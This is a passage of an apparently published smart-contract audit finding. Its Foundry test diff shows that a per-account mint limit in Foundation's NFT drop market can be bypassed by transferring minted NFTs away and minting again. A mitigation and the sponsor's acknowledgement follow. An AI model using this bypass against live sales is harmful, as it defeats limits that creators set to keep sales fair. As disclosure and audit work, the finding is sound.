 ### Proof of Concept

Modify the `FixedPriceDrop.sol` Foundry test with the following changes.

```diff
diff --git a/FixedPriceDrop.sol.orig b/FixedPriceDrop.sol
index 0a6d698..56808f8 100644
--- a/FixedPriceDrop.sol.orig
+++ b/FixedPriceDrop.sol
@@ -71,14 +71,26 @@ contract TestFixedPriceDrop is Test {
 
     /** List for sale **/
     uint80 price = 0.5 ether;
-    uint16 limitPerAccount = 10;
+    uint16 limitPerAccount = 3;
     vm.prank(creator);
     nftDropMarket.createFixedPriceSale(address(nftDropCollection), price, limitPerAccount);
 
     /** Mint from sale **/
     uint16 count = 3;
     vm.deal(collector, 999 ether);
-    vm.prank(collector);
+    vm.startPrank(collector);
+    nftDropMarket.mintFromFixedPriceSale{ value: price * count }(address(nftDropCollection), count, payable(0));
+
+    // Check that available count for collector is 0
+    uint256 remaining = nftDropMarket.getAvailableCountFromFixedPriceSale(address(nftDropCollection), collector);
+    assertEq(remaining, 0);
+
+    // Transfer all bought NFTs out
+    nftDropCollection.transferFrom(collector, address(5), 1);
+    nftDropCollection.transferFrom(collector, address(5), 2);
+    nftDropCollection.transferFrom(collector, address(5), 3);
+
+    // Buy 3 more NFT
     nftDropMarket.mintFromFixedPriceSale{ value: price * count }(address(nftDropCollection), count, payable(0));
   }
 }
```

### Tools Used

Foundry

#### Recommended Mitigation Steps

Use a mapping to track how many NFTs an address has bought instead of relying on `balanceOf`.

**[HardlyDifficult (Foundation) acknowledged and commented](https://github.com/code-423n4/2022-08-foundation-findings/issues/59#issuecomment-1218494243):**
> This is accurate! We had several meetings about this concern while building the contract, ultimately deciding to move forward with this approach knowing that it has limitations. The trouble is every limit solution suggested and used in the wild today can be gamed, it's just varying levels of friction for an attacker to work around it. Once someone has coded up a workaround, it could easily be used on any of the collections being sold by our marketplace. So we decided to KISS.
> 
> But if it can be gamed, why include a limit at all? Creators want one. It sets expectations with the community and makes the sale feel more fair. Many users will respect the limit as communicated - we suspect more often than not, this simple limit check will be sufficient.
> 